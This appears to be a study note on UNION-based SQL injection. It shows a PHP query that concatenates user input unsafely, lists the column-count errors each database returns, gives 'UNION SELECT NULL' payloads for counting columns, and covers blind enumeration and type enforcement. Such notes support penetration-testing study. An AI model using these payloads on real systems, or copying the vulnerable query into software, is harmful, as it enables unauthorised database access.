 ### Enumerating the Number of Fields in a Query
Enumerate the number of columns or fields, in query selects:
```
mysql_query("SELECT id, real_name FROM users WHERE id=".$GET['id'].";");
```

// id has data type int
// real_name has data type varchar (a string)

If the web app outputs an error, please note that every DBMS outputs a different error string:
- MySQL error: The used SELECT statements have a different number of columns
- MS SQL error: All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target lists.
- PostgreSQL error: ERROR: each UNION query must have the same number of columns
- Oracle error: ORA-01789: query block has incorrect number of result columns


- We start by injecting a query that selects null fields. We start with a single field and then increase the number of fields until we build a valid query.

Example: Detecting the number of fields needed to exploit an in-band SQL injection looks like the following:
```
9999 UNION SELECT NULL; -- -
9999 UNION SELECT NULL, NULL; -- -
9999 UNION SELECT NULL, NULL, NULL; -- -
9999 UNION SELECT NULL, NULL, NULL, NULL; -- -
```

- We can iteratively add null fields until the error disappears.

This will force the web app to execute the following queries:
```
SELECT id, real_name FROM users WHERE id='9999' UNION SELECT NULL; -- -
SELECT id, real_name FROM users WHERE id='9999' UNION SELECT NULL, NULL; -- -
```

### Blind Enumeration
- What about a web app that does not display errors?
- The basic idea is similar (increasing the number of fields at every step) but, in this case we want to start with a valid id and then inject our query.
- As we did before, we increase the number of fields selected until we create a valid query.

### Identifying Field Types
- After identifying the number of fields, we need to find their type. Most of the DBMS perform type enforcing on the queries.
- If the DBMS performs type enforcing on UNION statements you cannot perform a UNION between an integer and a string therefore >  SELECT 1 UNION 'a'; will trigger an error!

- Depending on how the DBMS handles data types, we are required to provide an exact match of the data types For each column in the two SELECT statements.


|DBMS              | Type Enforcing|
|MySQL            | No|
|MSSQL Server | yes|
|Oracle             | Yes|
|PostgreSQL     | yes |
